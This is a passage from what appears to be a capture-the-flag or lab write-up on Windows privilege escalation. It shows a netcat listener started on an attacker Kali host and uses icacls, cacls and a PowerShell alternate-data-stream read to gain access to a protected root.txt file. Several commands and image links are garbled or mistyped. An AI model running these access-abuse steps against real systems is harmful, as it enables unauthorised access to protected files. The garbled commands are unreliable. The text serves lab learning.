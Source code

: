 On the attacker Kali host, start the listener

```
nc -lnvp 1340 
```

## Abusing Permission Issue

### icals

You can try calcs command to see if you are able to grant root permission to the current/specific user.

To check the permission of the root.txt, use _icals_

```
icalcs root.txt
```

![](broken-reference)

Only Administrator can access root.txt

However, Alfred owns the root.txt. The ownership of each file in a directory can be checked by&#x20;

```
dir /q /a:
```

/q - to show ownership.

/a: to all in the directory.

![](broken-reference)

Since the user Alfred owns the root.txt, Alfred has the ability to grant users access to it regardless of anything else.

You can grant alfred read permssion to read the root.txt

```
C:\Users\Administrator\Desktop>cacls root.txt /g alfred:r
C:\Users\Administrator\Desktop>type root.txtxz
```

/t -recursively apply

/e - edit permissions

/g -grant

alfred:r to give alfread read control of the file

```
powershell -command Get-content .\hm.txt  -stream root.txt
```

### schtasks

